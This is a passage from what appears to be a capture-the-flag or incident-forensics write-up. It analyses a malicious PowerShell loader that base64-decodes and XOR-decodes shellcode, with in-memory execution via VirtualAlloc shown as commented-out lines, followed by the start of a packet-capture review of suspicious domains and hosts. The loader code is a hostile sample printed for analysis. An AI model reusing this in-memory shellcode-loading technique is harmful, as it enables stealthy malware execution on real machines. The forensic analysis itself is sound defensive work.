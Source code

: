     function func_get_delegate_type { Param ( [Parameter [...] return $var_type_builder.CreateType() }

    If ([IntPtr]::size -eq 8) {
        [Byte[]]$var_code = [System.Convert]::FromBase64String('bnlicXZrqsZros8D[...]IyMjIyMjIyMj')

        for ($x = 0; $x -lt $var_code.Count; $x++) {
            $var_code[$x] = $var_code[$x] -bxor 35
        }

        $file_path = "C:\Users\Flamethrower\Downloads\28part.bin";
        [System.IO.File]::WriteAllBytes($file_path, $var_code)
        Write-Output "Machine code written to $file_path"

        #$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
        #$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
        #[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

        #$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
        #$var_runme.Invoke([IntPtr]::Zero)
    }
    ```
    - We see the script is decoding and unzipping base64 long string and he put this string in memory in order to execute it
    - I modified the script to write the result in a file

### Pcap
1. Take a look at the packets statistics :
	![Packets stats](../../img/aptnightmare/00_packets_stats.png)
	- We have a good number of http
2. In the **File > Export objects > HTTP** :
	- We can see the following domains : `cs-corp.cd` (with subdomains download, mail, sysmon) then we have the following IP 192.168.1.5 (port 3334, 8000, 806)
	- The domain cs-corp.cd is dead now
	- I export all the files, even if some will be useless I have everything and I can come back later
3. Most of the communications to 1.5 come from 192.168.1.3 but 1.1 and 1.7 also communicate with 1.5
